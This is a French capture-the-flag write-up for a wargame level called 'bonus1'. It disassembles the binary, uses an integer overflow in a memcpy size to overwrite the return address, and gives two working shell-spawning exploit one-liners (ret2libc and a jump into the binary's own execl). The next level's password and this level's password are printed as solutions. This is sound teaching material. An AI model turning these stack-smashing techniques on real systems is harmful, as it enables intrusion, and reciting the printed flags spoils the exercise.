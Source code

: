 On se connecte sur le bonus1, ou se trouve un **binaire** <code>bonus1</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus1
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **memcpy**.  
On remarque qu'il y a une condition précisant que n doit être inférieur a 10, mais on souhaite faire overflow **memcpy** avec notre (n * 4), en sachant que notre buffer est de 40 et que notre ret2libc fait 12 bytes, on a donc besoin de minimum 52/4. On cherche donc un nombre négatif qui en underflow donne au moins 13.

```c
#include <limits.h>

int main(){
	int i;
	int res;

	i = -1;
	res = i * 4; 
	while(res < 0 || res > 68){
		i--;
		res = i * 4;
	}
	printf("res = %d\n", res);
	printf("i = %d\n", i);
}

> ./a.out
res = 68
i = -1073741807
```
On cherche l'offset : 

```gdb
(gdb) > b * 0x08048473
Breakpoint 1 at 0x8048473
(gdb) run -1073741799 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/bonus1/bonus1 -1073741799 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x08048473 in main ()
(gdb) > ni
0x08048478 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff5e0:
 eip = 0x8048478 in main; saved eip 0x4f4f4f4f
 Arglist at 0xbffff5d8, args:
 Locals at 0xbffff5d8, Previous frame's sp is 0xbffff5e0
 Saved registers:
  ebp at 0xbffff5d8, eip at 0xbffff5dc
```
On voit que l'eip s'est fait override par les 4f, donc les O.
Donc notre offset est de 56.

A partir d'ici, nous avons plusieurs possibilités, soit un ret2libc, soit envoyer a l'adresse 0x08048482 qui va executer le **/bin/sh**.

# Première solution

<pre><code>> ./bonus1 -1073741807 $(python -c "print 'B' * 56 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x83\x85\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245</code></pre>

> Adresse de system : 0xb7e6b060
>
> Adresse de exit : 0xb7e5ebe0
>
> Adresse de /bin/sh : 0x08048583

# Deuxième solution

<pre><code>
./bonus1 -1073741807 $(python -c "print 'B' * 56 + '\x82\x84\x04\x08'")
$ cd ../bonus2 && cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
</code></pre>


For download :
<pre><code>scp -P4242 bonus1@IP:bonus1 .</code></pre>
> Password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

